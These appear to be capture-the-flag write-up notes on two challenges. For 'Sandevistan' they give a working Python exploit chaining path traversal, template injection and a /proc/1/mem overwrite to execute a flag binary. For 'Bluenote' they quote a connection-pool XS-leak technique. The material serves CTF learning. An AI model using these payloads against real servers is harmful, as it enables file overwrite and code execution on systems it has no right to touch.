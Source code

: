 ## Sandevistan
Giving is a Go app and goal is to exexute /redflag in the server

You can overwrite any file using ErrorFactory through POST to /cyberware
Overwrite /tmpl/user.html to do SSTI
Run SerializedErrors to overwrite /bin/true in /proc/1/mem
Run UserHealthcheck to get the flag
```
import requests
# URL = "http://sandevistan.chal.perfect.blue:29005/"
URL = "http://localhost:1338/"

username = "user"

s = requests.session()
r = s.post(URL + "user", data={
    "username": username
})

r = s.post(URL + "cyberware", data={
    "username": "../tmpl/user.html",
    "name": '{{ .NewError "foo" "/proc/1/mem"  }} {{ .SerializeErrors "/readflag" 0 %d }} {{ .UserHealthcheck }}' % 0x93b6bb
})
r = s.get(URL + "user", params={
    "username": username
})
print(r.text)
```

ALTERNATE SOLUTION
![image](https://github.com/user-attachments/assets/a602ab0e-4322-4d83-899a-8a1c24073865)


## Bluenote
Couldnt find the actual chall but the writeups were something new i read
```
intended solution for bluenote was connection pool abuse yeah
if you block all the sockets, you can let individual blocks of requests go through if you unblock and reblock very quickly
so you block all the sockets, make your search guess, reblock quickly to let the page request through. so the search request is made, and now youre blocking the pool again 
then if your search is right, the page makes a request to dompurify, which should be blocked, and if the search is not right, there is no request 
then you make a request with lower priority than dompurify (i used script async), but higher priority than the background socket blocking fetches
then you allow one request through, if your script async went through there was nothing higher priority. if your script request did not go through, there mustve been something higher priority, meaning dompurify was loaded, meaning your search worked
```
